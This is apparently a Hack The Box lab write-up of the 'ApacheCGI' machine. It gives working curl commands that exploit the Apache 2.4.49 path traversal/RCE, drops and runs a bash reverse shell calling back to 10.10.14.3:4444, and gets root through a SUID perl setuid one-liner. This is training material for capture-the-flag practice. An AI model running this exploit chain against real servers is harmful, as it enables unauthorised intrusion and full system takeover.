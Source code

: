 # 🌐 ApacheCGI

#htb-veryeasy #path-traversal #cgi-bin #suid-priv-escalation

>[!todo]- Summary
>
>This room took me ~4hrs to fully complete - no full online guides were available so it was quite the challenge to research, piece bits together and explore.
>
> I thought this room would be similar to the [[Shocker]] machine since they are both to do with `cgi-bin`. They kind of are but the difference is that in Shocker I discovered an existing `.sh` file to get a reverse shell but in this room I created my own. The privilege escalation was also a lot harder.

---

# Initial Nmap Scan

To begin with I will perform an nmap scan to find out about the target machine:

```
sudo nmap -sC -sV -O -p- <target_ip> -v
```

- `-sC` - check for vulnerabilities with nmap default scripts
- `-sV` - get service/version info
- `-O` - enable OS detection
- `-v` - verbose output

**Nmap Output:**
![[nmap_output.png]]

The Nmap scan shows that two ports are open: 80 and 22
- Port 80 is running Apache httpd 2.4.49
- Port 22 is running OpenSSH 8.4p1 Debian 6 (protocol 2.0)

## Path Traversal and Reverse Shell

Searching for Apache 2.4.49 on [Exploit DB](https://www.exploit-db.com/exploits/50383) shows 1 associated vulnerability linked to path traversal and RCE.

The exploit script has a for loop to iterate through multiple hosts but since I only need to attack one target I can just take the curl part and modify it for my needs

```
# this is copied from exploitdb
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"
```

The above command can be edited to suit the needs for this box.

I have rewritten the script with help from [this video](https://youtu.be/WSVcuV2Wc58?t=321) and I now have these two commands to upload a reverse shell script:

\# make reverse shell script

```
curl 'http://10.129.96.43/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "#!/bin/bash" > /tmp/whiskey.sh'
```

```
curl 'http://10.129.96.43/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1" >> /tmp/whiskey.sh'
```

To check that the two commands have worked I can use the command below to check the contents of the file I am using:

```
curl 'http://10.129.96.43/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; cat /tmp/whiskey.sh'
```

![[Pasted image 20240301214732.png]]

Next I can start a listener to capture the reverse shell

\# Ncat listener for incoming reverse shell connection

![[Pasted image 20240301212948.png]]

\# execute the reverse shell with `bash`

```
curl 'http://10.129.96.43/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; bash /tmp/whiskey.sh'
```

\# The curl command hangs - this is good!

![[Pasted image 20240301215031.png]]

\# Now I have a reverse shell

![[Pasted image 20240301215208.png]]

---

# 🤯 User Own

From this point where I have the reverse shell I can just use basic commands such as `ls`, `cd`, and `cat` to find the user flag:

![[Pasted image 20240301213215.png]]

---

# 🖥 System Own

Now to do the hard part 🙃.

This part took ~2hr40mins.

This was all about privilege escalation and I had no idea how to do it since there were no guides or writeups for this box published **anywhere**.

This meant tons and tons of googling and it was quite painful but the answer lied in [privilege escalation through exploiting a vulnerable SUID executable](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/#:~:text=3.-,Exploiting%20SUID%20Executables,-SUID%20which%20stands).

\# Command to find executables with SUID bit set

```
find / -perm -u=s -type f 2>/dev/null
```

If I run this command on the target machine I can see that the SUID bit is set for perl5.32.1.

Running `ls -la /usr/bin/perl5.32.1` shows that `root` is the owner.

This means that because the s bit is set when I run perl5.32.1 I can potentially run a perl script as root to get privilege escalation.

![[Pasted image 20240302003043.png]]

I then googled "perl suid privilege escalation" and found [this page](https://delinea.com/blog/linux-privilege-escalation) that contained the following command:

```
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

However this threw an error that said:

```
Insecure $ENV{PATH} while running with -T switch at -e line 1.
```

The command just worked for the person who wrote it so I had to find a way around this error.

This is where my knowledge began to dry up again and I used ChatGPT to help me write the Perl script I needed. 

The missing part was `'BEGIN { $ENV{PATH} = "/bin:/usr/bin"; }` which sets the `PATH` environment variable to a known, safe list of directories before any other operation is performed. This is crucial for bypassing the `Insecure $ENV{PATH}` error.

\# Perl script that grants root access

```
./perl -e 'BEGIN { $ENV{PATH} = "/bin:/usr/bin"; } use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

or

```
/usr/bin/perl5.32.1 -e 'BEGIN { $ENV{PATH} = "/bin:/usr/bin"; } use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![[Pasted image 20240302004605.png]]


---

# Dirbuster

Dirbuster can be used again websites to scan for directories that could be exploited.

The directory scan is setup like:

![[dirbuster_1.png]]

The scan found a few directories are files:

![[dirbuster_2.png]]

Since I have just done the [[Shocker]] room I know that `cgi-bin` can be vulnerable to [[ShellShock]] and therefore a reverse shell can be created.

> "..if you have a 403 on the `/cgi-bin/` directory, try to enumerates for files within that directory with a good wordlist, searching for `.sh` or `.cgi` extensions."
> \- [GitHub/b4keSn4ke/CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)

The above screenshot shows that we are getting a 403 response in the `cgi-bin` directory. According to the GitHub I should perform another Dirbuster scan:

![[dirbuster_3.png]]

This scan didn't yield any results so I am trying a [different wordlist](https://github.com/digination/dirbuster-ng/blob/master/wordlists/vulns/cgis.txt):

![[dirbuster_4.png]]

Changing a few settings and choosing different wordlists gave the following output:

![[dirbuster_6.png]]

---

# 🔗 Useful Links

- Apache 2.4.49 - Path Traversal & Remote Code Execution (RCE): [ExploitDB](https://www.exploit-db.com/exploits/50383)
- Video explaining Apache 2.4.49: [CVE-2021-41773](https://www.youtube.com/watch?v=WSVcuV2Wc58)
- Methods of Linux Priv Escalation: [Vulnerable SUID](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/#:~:text=3.-,Exploiting%20SUID%20Executables,-SUID%20which%20stands)
- Bypass local security with: [GTFOBins](https://gtfobins.github.io/#+suid)

